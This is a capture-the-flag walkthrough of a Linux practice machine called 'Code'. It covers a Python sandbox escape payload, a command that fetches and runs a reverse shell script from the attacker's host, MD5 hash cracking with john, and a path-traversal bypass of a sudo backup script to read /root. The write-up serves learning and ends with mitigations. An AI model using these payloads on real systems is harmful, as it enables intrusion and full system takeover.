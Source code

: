 # Code

```
Difficulty: Easy
Operating System: Linux
Hints: True
```



##  Summary

| Step | User / Access | Technique Used              | Result                                                                                            |
| :--- | :------------ | :-------------------------- | :------------------------------------------------------------------------------------------------ |
| 1    | `N/A`         | Port Scanning               | Found HTTP on port `5000`, SSH, and identified a Python Code Editor service.                      |
| 2    | `www-data`    | SSTI Injection              | Executed arbitrary Python code to get a reverse shell as `www-data`.                              |
| 3    | `martin`      | Database Credential Dumping | Extracted `martin`'s password hash from `database.db` and cracked it.                             |
| 4    | `martin`      | SSH Access                  | Logged in as `martin` using cracked password and obtained `user.txt`.                             |
| 5    | `root`        | Sudo Script Misuse          | Abused sudo permission on `/usr/bin/backy.sh` with crafted `task.json` to back up `/root` folder. |
| 6    | `root`        | Root Flag Retrieval         | Retrieved `root.txt` from `/tmp/root/` after the backup script ran.                               |

---


##  Nmap Scan

```bash
nmap code.htb -sV -A

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
```

---

## Initial Foothold: SSTI Injection

* A Python code editor web app was running on port `5000`.
* Discovered SSTI vulnerability allowing Python code injection.
* Bypassed keyword filters using creative string concatenation.

Example payload to list root directory:

```python
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()'))
```

* Downloaded a reverse shell script from attacker's machine and executed it:

```python
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("wget 10.10.xx.xx/shell.sh -O /tmp/shell.sh").read()'))
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("bash /tmp/shell.sh").read()'))
```

---

##  Privilege Escalation Part 1: User Enumeration & Credential Dumping

* Discovered a `database.db` file in `/app/instance/`.
* Extracted a password hash for user `martin`.

Used `john` to crack the password:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

Recovered password for `martin`.

---

##  User Access: SSH Login

```bash
ssh martin@code.htb
```

* Found `user.txt` in `/home/martin/user.txt`.

---

## Privilege Escalation Part 2: Sudo Script Exploitation

* Checked sudo permissions:

```bash
sudo -l
```

Result showed `martin` can run `/usr/bin/backy.sh` as root without a password.

* Analyzed `backy.sh` script:

  * Takes a JSON file as argument.
  * Validates that directories are under `/home/` or `/var/`.
  * Uses `jq` to clean `../` from input but is vulnerable to double write (`/.../.../.../...`) bypass.

Crafted `task.json`:

```json
{
    "directories_to_archive": [
        "/home/..././root/"
    ],
    "destination": "/tmp"
}
```

Executed the backup script:

```bash
sudo /usr/bin/backy.sh task.json
```

---

##  Root Flag Retrieval

After the script ran, obtained `root.txt` from the backup in `/tmp`.

```bash
cat /tmp/root/root.txt
```

## 🔧 Mitigations

* Disable arbitrary code execution features.
* Validate input strictly.
* Avoid NOPASSWD in sudo unless required.
* Secure password storage and enforce strong password policies.

---

